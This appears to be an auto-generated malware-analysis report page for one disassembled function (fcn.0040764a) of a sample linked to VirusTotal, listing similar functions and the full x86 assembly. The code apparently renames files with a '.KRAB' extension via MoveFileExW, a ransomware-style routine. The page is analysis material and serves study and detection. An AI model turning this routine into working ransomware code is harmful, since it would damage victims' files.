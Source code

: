 ```yaml
---
layout: post
title:  "fcn.0040764a @ 470263fe7e7cc115b95cd041d643e3b5"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.0040764a
- **Origin (md5):** 470263fe7e7cc115b95cd041d643e3b5
- **VirusTotal:** [virustotal.com/gui/file/470263fe7e7cc115b95cd041d643e3b5][virustotal_ref]

# Code Tags
<span class="tag" id="LINKING">LINKING</span>


# Similar Functions

1. [fcn.0041fd6f][similar_1_ref] (sim.: 0.9192434955077005)
2. [fcn.10126ec7][similar_2_ref] (sim.: 0.8854027730551891)
3. [fcn.100d4b49][similar_3_ref] (sim.: 0.8854027730551891)
4. [fcn.00480148][similar_4_ref] (sim.: 0.8854027730551891)
5. [fcn.00480148][similar_5_ref] (sim.: 0.8854027730551891)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
sub esp,0x38
mov eax,dword[0x423304]
push ebx
push esi
xor ebx,ebx
mov dword[ebp-8],edx
mov esi,ecx
push edi
mov edi,ebx
test eax,eax
je 0x407673
push eax
call dword[sym.imp.KERNEL32.dll_lstrlenW]
lea edi,[eax*2+2]
push esi
call dword[sym.imp.KERNEL32.dll_lstrlenW]
add eax,edi
lea ecx,[eax*2+0x18]
call fcn.00408cd4
mov edi,eax
test edi,edi
je 0x4077ad
mov eax,dword[0x423304]
test eax,eax
jne 0x4076ad
push esi
push str._s.KRAB
push edi
call dword[sym.imp.USER32.dll_wsprintfW]
add esp,0xc
jmp 0x4076be
push eax
push esi
push str._s_s
push edi
call dword[sym.imp.USER32.dll_wsprintfW]
add esp,0x10
mov ecx,esi
call fcn.004074e1
test eax,eax
jne 0x4077a4
mov ecx,esi
call fcn.004071ba
test eax,eax
jne 0x4077a1
mov eax,dword[ebp-8]
cmp dword[eax+0x20],2
jb 0x4077a1
mov ecx,esi
call fcn.00407410
xor ecx,ecx
xor edx,edx
inc ecx
test eax,eax
cmovne ecx,edx
mov dword[ebp-4],ecx
cmp dword[0x423310],edx
jne 0x407775
push 0x6e
pop eax
push 0x74
mov word[ebp-0x38],ax
pop eax
push 0x64
pop ecx
push 0x6c
pop edx
mov word[ebp-0x36],ax
push 0x2e
pop eax
mov word[ebp-0x2e],ax
xor eax,eax
mov dword[ebp-0x26],eax
lea eax,[ebp-0x38]
push eax
mov word[ebp-0x34],cx
mov word[ebp-0x32],dx
mov word[ebp-0x30],dx
mov word[ebp-0x2c],cx
mov word[ebp-0x2a],dx
mov word[ebp-0x28],dx
call dword[sym.imp.KERNEL32.dll_GetModuleHandleW]
test eax,eax
je 0x407772
movdqa xmm0,xmmword[0x41a890]
lea ecx,[ebp-0x20]
push ecx
push eax
movdqu xmmword[ebp-0x20],xmm0
mov dword[ebp-0x10],0x656c6946
mov byte[ebp-0xc],bl
call dword[sym.imp.KERNEL32.dll_GetProcAddress]
mov dword[0x423310],eax
mov ecx,dword[ebp-4]
mov edx,dword[ebp+8]
lea eax,[ebp-4]
push eax
push dword[ebp-8]
mov dword[ebp-4],ebx
push ecx
push ecx
mov ecx,esi
call fcn.00401261
add esp,0x10
test eax,eax
je 0x4077a1
cmp dword[ebp-4],ebx
je 0x4077a1
push 1
push edi
push esi
call dword[sym.imp.KERNEL32.dll_MoveFileExW]
xor ebx,ebx
inc ebx
mov ecx,edi
call fcn.00408ce5
mov eax,ebx
pop edi
pop esi
pop ebx
mov esp,ebp
pop ebp
ret
{% endhighlight %}


[similar_1_ref]: /report/fcn.0041fd6f@b3771987fba16f4fba07d1109ec72c76
[similar_2_ref]: /report/fcn.10126ec7@e5d49e0823e602f2ee948ac39d32c1eb
[similar_3_ref]: /report/fcn.100d4b49@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_4_ref]: /report/fcn.00480148@912f1d013a0d6151bc7a7cef6da1b2a0
[similar_5_ref]: /report/fcn.00480148@152885a790b99953ce23874f0947b7bd
[virustotal_ref]: https://www.virustotal.com/gui/file/470263fe7e7cc115b95cd041d643e3b5
